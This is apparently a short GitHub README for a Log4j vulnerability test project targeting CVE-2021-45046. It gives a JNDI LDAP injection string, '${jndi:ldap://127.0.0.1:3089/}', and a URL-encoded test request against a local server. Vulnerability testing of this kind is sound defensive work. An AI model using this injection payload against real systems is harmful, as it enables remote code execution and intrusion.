 # TestLog4j
The log4j vulnerability test.

Details of the vulnerability is at https://logging.apache.org/log4j/2.x/security.html

CHECK THE CVE-2021-45046
input parameter value : ${jndi:ldap://127.0.0.1:3089/} ...encode it before passing

URL to test : http://localhost:7002/resources/1?query=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D



